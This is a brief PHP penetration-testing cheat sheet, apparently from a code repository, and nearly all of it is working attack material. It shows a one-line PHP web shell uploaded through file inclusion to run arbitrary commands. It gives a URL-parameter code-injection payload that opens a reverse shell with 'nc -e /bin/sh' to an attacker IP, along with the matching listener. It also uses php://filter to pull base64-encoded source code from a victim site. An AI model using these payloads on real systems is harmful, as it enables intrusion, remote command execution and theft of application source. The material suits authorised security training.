 # PHP Penteration Testing Techniques

### Simple PHP backdoor technique
```
// If you have a website with file inclusion you can upload and navigate to
http://$ip/something/?lang=en.php

// Upload the following backdoor.php containing
<?php system($_GET['cmd']);?>

// Then navigate to it and execute with
http://$ip/something/?lang=/var/ftp/pub/backdoor.php&cmd=whoami
```

### Execute system commands using php
`<php system('ls -la'); ?>`

---
### Obtaining Shell through Browser Bar
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
---
### Using php:// in url to return base64 encoded page source
```
# https://victimsite.com/somefile.php?pagename=whatever
https://victimsite.com/somefile.php?pagename=php://filter/convert.base64-encode/resource=somefile.php
# or
https://victimsite.com/somefile.php?pagename=php://filter/convert.base64-encode/resource=somefile

# Copy the returned base64 code and decode it
echo -n thebase64codethatwassuppliedbythephpfilterconvertbase64encode | base64 -d > somefile.php
```

